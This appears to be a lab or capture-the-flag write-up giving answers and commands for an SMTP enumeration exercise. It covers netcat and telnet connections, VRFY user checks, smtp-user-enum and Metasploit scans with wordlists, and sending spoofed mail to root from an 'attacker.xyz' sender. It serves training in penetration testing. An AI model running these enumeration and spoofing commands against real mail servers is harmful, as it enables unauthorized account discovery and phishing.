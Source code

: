 : nc 192.80.153.3 25

Q3. Does user “admin” exist on the server machine? Connect to SMTP service using netcat and check manually. 
Answer: Yes 
Command: VRFY admin@openmailbox.xyz 

Q4. Does user “commander” exist on the server machine? Connect to SMTP service using netcat and check manually. 
Answer: No 
Command: VRFY commander@openmailbox.xyz

Q5. What commands can be used to check the supported commands/capabilities? 
Connect to SMTP service using telnet and check. 
Commands: 
- telnet 192.26.29.3 25
- HELO attacker.xyz 
- EHLO attacker.xyz

Q6. How many of the common usernames present in the dictionary /usr/share/commix/src/txt/usernames.txt exist on the server. Use smtp-user-enum tool for this task. 
Answer: 8 
Command: smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t 192.80.153.3


Q7. How many common usernames present in the dictionary /usr/share/metasploit-framework/data/wordlists/unix_users.txt exist on the server. Use suitable metasploit module for this task. 
Answer: 20 
Commands: msfconsole use auxiliary/scanner/smtp/smtp_enum set RHOSTS 192.80.153.3 Exploit


Q8. Connect to SMTP service using telnet and send a fake mail to root user. Commands:
```
telnet 192.26.29.3 25
HELO attacker.xyz 
mail from: admin@attacker.xyz 
rcpt to:root@openmailbox.xyz 

data
Subject: Hi Root 
Hello, 
This is a fake mail sent using telnet command. 
From, 
Admin


.

```

Note: There is a dot(.) in the last line which indicates the termination of data.


Q9. Send a fake mail to root user using sendemail command. 
Command: 

```sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no```

